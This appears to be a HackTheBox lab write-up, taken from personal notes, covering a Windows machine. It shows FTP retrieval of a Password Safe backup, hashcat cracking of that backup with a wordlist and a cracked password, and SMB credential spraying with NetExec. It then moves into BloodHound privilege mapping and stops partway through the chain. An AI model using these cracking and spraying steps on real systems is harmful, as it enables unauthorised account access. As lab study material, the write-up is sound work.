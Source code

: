 #### FTP 
```
ftp 10.10.11.42
```

![[HackTheBox/Windows/attachments/Pasted image 20250524235729.png]]
- found backup file
- get the file but get a file type warning because the file is a binary 
- change ftp mode to `bin` and re-get the file

![[HackTheBox/Windows/attachments/Pasted image 20250525000002.png]]

### Using hashcat to crack the backup file 

Hashcat knows the .psafe3 file extension
```
hashcat -m 5200 hashes/Backup.psafe3 /usr/share/wordlists/rockyou.txt
```

![[HackTheBox/Windows/attachments/Pasted image 20250525000409.png]]

The password cracked to be `tekieromucho`

### Open the Database 

Install pwsafe 
```
sudo apt install passwordsafe
```

Open pwsafe and enter in cracked password
```
pwsafe
```

Get usernames from this safe 
![[HackTheBox/Windows/attachments/Pasted image 20250525000757.png]]

Create users.txt with these names and create passwords.txt with all those passwords

### NetExec to verify which creds work

Testing out which creds actually work
```
nxc smb 10.10.11.42 -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
```

We have emily's password 
![[HackTheBox/Windows/attachments/Pasted image 20250525001127.png]]

### Bloodhound 
Mark emily as owned in bloodhound.

Check emily's outbound object control and see she has genericwrite over ethan
